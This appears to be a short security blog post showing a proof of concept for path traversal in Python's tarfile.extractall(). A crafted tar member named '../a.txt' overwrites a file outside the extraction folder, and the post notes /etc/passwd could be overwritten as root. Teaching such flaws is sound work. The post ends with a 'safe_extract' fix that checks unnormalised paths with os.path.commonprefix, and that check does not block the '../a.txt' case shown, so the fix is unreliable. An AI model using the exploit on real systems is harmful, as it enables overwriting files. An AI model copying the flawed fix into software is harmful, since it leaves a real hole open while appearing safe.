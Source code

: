 ```yaml
---
layout: post
title: Vulnerability with function tarfile.extractall()
date: 2024-10-28
categories: ["1-Day-Analysis", "Python"]
---
```


# Summary

During learning about CodeQL, I found function `tarfile.extractall()` perform extract file tar. However, when i research further about this function, i found vulnerability arbitrary write file in the system. 

Example: File poc.tar have 1 file name `../../../etc/passwd` when perform extract file poc.tar then file /etc/passwd in the system able overwrite if user use root permission. 

# POC

To prove this vulnerabolity, i will write poc with python perform extract file and overwrite 1 file a.txt with content "hacked!!!". I will create a file a.txt in the folder ahihi/a.txt. 

```
mkdir ahihi
echo "file a.txt" > ahihi/a.txt
ubuntu@ip-172-31-22-90:$ cat ahihi/a.txt 
file a.txt
```

Create file poc.tar include file name `../a.txt` 

```
import os
import tarfile

# Create a file name with '../a.txt'
with tarfile.open('poc.tar', 'w') as tar:
    # create temporary file
    with open('evil_file.txt', 'w') as f:
        f.write('hacked!!!')

    # add file `../a.txt` in to tar file
    tar.add('evil_file.txt', arcname='../a.txt')
```

Now, i have a file poc.tar, so i will process code python perform extract file poc.tar and check content file a.txt in the ahihi folder.

```
import os
import tarfile

extract_dir = '.'
os.makedirs(extract_dir, exist_ok=True)

print(f"Before extraction, does 'a.txt' exist? {'a.txt' in os.listdir('..')}")

with tarfile.open('poc.tar', 'r') as tar:
    tar.extractall(path=extract_dir)

print(f"After extraction, was 'a.txt' overwritten? {'a.txt' in os.listdir('..')}")
```

Run file poc.py

```
ubuntu@ip-172-31-22-90:ahihi/poc$ python3 poc.py 
Before extraction, does 'a.txt' exist? True
After extraction, was 'a.txt' overwritten? True
```

I will chekc file ahihi/a.txt content:

```
ubuntu@ip-172-31-22-90:ahihi/poc$ cat ../a.txt 
hacked!!!
```

well, done!!!

Recommend: When use function `tarfile.extractall()` to extract tar file, you should use a safe function: 

```
import os
import tarfile

def safe_extract(tar, path=".", members=None):
    for member in tar.getmembers():
        member_path = os.path.join(path, member.name)
        if not os.path.commonprefix([path, member_path]) == path:
            raise Exception("Attempted Path Traversal in Tar File")
    tar.extractall(path, members=members)

# use safe_extract instead extractall
with tarfile.open(filename) as tar:
    safe_extract(tar, extract_dir)
```

